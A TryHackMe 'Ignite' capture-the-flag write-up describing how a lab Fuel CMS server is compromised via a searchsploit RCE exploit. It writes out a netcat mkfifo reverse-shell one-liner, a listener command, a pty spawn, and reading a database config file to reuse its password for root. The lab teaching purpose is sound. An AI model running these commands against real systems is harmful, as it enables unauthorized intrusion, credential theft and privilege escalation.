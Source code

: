 # TryHackMe Ignite
**A new start-up has a few issues with their web server.**

## Task-1 Root it!

* First I tried to examine the website and below there was a /fuel/dashboard page whose creds were given to us. So I logged into it and it was a mysql database panel. So for enumeration start with nmap scan and dirbuster. Nmap results show port -'80' and dirbuster also gave some directories one of which was fuel.

* Then I searched for fuel cms CVE using '*searchsploit fuel cms*' and got one. It was a remote code execution . Download the file into your machine and change its 'url' to the THM machine ip. Also remove the proxy portion from the 'r' variable as we are not working with burp.

* So after running the file I was successully granted a shell in which it asks for 'cmd:'. So I searched for 'pwd', and also list the users using '*ls -la /home/*' and got one named 'www-data'. So I saw items in this user using '*ls -la /home/www-data*' and yes we have a flag.txt file. See its content using '*cat /home/www-data/flag.txt*'. This is our first flag.

1. User.txt<br>
Answer :6470e39**********************

* Now I searched how to gain root access but was unable to find anything. Then I went to home page of the website and there in 'install the database' we are given a database configuration file. I saw its content using '*cat /var/www/html/fuel/application/config/database.php*' and got the user:pass. So I tried to find any special privileges for root in the shell but was unable to find. In the end I searched for nc reverse shell to gain access. 

* So I searched for reverse shell online and got one on this site http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet. So I typed '*rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 'tun0ip' 4444 >/tmp/f*' in the shell and started '*nc -lnvp 4444*' in my machine. You can see your tun0ip using 'ifconfig'. SO we have our shell now. If I type su to switch user it shows that 'su must be run from a terminal'. So type *python -c 'import pty; pty.spawn("/bin/sh")'* to spawn a terminal. No we are in terminal and type 'su'. It asks for a password . Remember we got a password from mysql databse. Type in the passowrd 'mememe' and we have our root access. Move to 'cd /root'  and type 'ls -la'. You will see 'root.txt' file. See its content which is the answer to our last question.

2. Root.txt<br>
Answer : b9bbcb33e11b8***************